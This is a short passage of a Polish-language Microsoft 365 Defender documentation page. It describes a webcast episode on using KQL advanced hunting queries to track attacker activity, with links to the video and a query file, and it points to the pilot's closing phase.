|Odcinek 4. Let's hunt! Stosowanie KQL do śledzenia zdarzeń|Czas na śledzenie pewnych działań atakujących! W tym odcinek użyjemy lepszego zrozumienia KQL i zaawansowanego wyszukiwania w Microsoft 365 Defender śledzenia ataków. Zapoznaj się z poradami i wskazówkami używanymi w terenie do śledzenia działań atakujących, w tym dotyczących aktywności przestępczej, w tym dotyczących aktywności przestępczej i stosowania ich do reagowania na incydenty.|[MP4](https://aka.ms/MTP5AUG20_MP4)|[YouTube](https://youtu.be/2EUxOc_LNd8)|[Odcinek 4. Plik CSL w git](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%204%20-%20Lets%20Hunt.csl)|
|

## <a name="next-step"></a>Następny krok

| <br>[Faza zamykania i podsumowania](m365d-pilot-close.md)|Przeanalizuj Microsoft 365 Defender pilotażowe, przedazuj je uczestnikom projektu i zrób następny krok.
|:-----|:-----|
